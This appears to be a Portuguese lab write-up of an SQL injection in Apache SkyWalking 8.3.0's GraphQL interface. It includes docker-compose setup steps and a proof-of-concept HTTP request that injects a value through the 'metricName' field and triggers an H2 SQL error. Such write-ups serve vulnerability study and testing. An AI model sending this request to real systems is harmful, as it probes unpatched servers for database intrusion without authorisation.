 # Apache Skywalking 8.3.0 SQL Injection Vulnerability

Ferramenta de monitoramento de desempenho de aplicativos para sistemas distribuídos, especialmente projetada para microsserviços, arquiteturas nativas de nuvem e baseadas em contêiner (Docker, Kubernetes, Mesos).

Nas interfaces GraphQL do Apache Skywalking 8.3.0 e anteriores, há uma vulnerabilidade de injeção SQL do banco de dados H2.

Links de referência:

- https://mp.weixin.qq.com/s/hB-r523_4cM0jZMBOt6Vhw
- https://github.com/apache/skywalking/commit/0bd81495965d801315dd7417bb17333ae0eccf3b#diff-ec87a1cdf66cdb37574d9eafd4d72d99ed94a38c4a8ff2aa9c7b8daeff502a2c

## Ambiente de vulnerabilidade

Execute o seguinte comando para iniciar um Apache Skywalking 8.3.0:

```
docker-compose up -d
```

Depois que o ambiente for iniciado, visite `http://your-ip:8080` para ver a página Skywalking.

## Prova de Conceito

Eu uso o aplicativo de desktop do GraphiQL para enviar a seguinte consulta do GraphQL:

![](1.png)

Pode-se ver que a instrução SQL gerou erro, e o valor do parâmetro `metricName` foi injetado após `from`.

A solicitação HTTP desta consulta do GraphQL é:

```
POST /graphql HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 336

{
    "query":"query queryLogs($condition: LogQueryCondition) {
  queryLogs(condition: $condition) {
    total
    logs {
      serviceId
      serviceName
      isError
      content
    }
  }
}
",
    "variables":{
        "condition":{
            "metricName":"sqli",
            "state":"ALL",
            "paging":{
                "pageSize":10
            }
        }
    }
}
```

Para exploração mais aprofundada, você pode pesquisar por si mesmo e enviar PR para nós.
